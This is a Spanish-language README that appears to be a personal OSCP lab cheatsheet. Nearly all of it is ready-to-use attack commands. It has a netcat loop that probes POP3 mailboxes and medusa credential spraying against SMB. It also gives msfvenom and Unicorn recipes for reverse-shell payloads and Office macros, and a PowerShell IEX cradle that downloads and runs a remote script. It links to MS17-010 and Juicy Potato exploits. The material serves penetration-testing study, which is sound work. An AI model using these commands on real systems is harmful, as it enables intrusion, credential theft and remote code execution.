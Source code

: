 # Another-OSCP-Cheatsheet
Os introduzco aquí la cheatsheet personal que he ido usando durante mi recorrido por los labs del OSCP:

## POP3 enum
Este script de bash nos permite enumerar un servicio POP3 para tratar de encontrar algún correo en alguno de los usuarios que hemos encontrado en la etapa de reconocimiento:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**
Analiza que shares de SMB están disponibles con un usuario invitado:

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**
Comprueba esa gigante wordlist de usuarios que has ido reuniendo durante la etapa de reconocimiento, fácil y sencillo:

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## MSFVenom Payloads
**Windows Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
    
**Linux Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>

## Kernel Cross-Compiling

Especialmente útil si estás enfrentando una caja old-school que aún tiene un SO de 32 bits (créeme, hay muchiiiisimas cajas así en los labs del OSCP xd)  
Utiliza la opción --static sabiamente https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** es una herramienta FANTÁSTICA que debes usar en tu trayecto por los labs del OSCP, si debes crear cualquier macro para una suite office, este software te va a facilitar la vida enormemente https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** Si te enfrentas a EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
**Juicy Potato** Si cuentas con un usuario y al hacer "whoami /priv" cuenta con privilegios SeImpersonate o SeAssignPrimaryToken... https://github.com/ohpe/juicy-potato

## Powershell invoke script

    powershell "IEX(New-Object Net.webClient).downloadString('http://LABIP/file.ipp')"

## Exploit search

    searchsploit <service name>
    
## Windows Privesc Checklist

https://guif.re/windowseop  
https://www.fuzzysecurity.com/tutorials/16.html
    
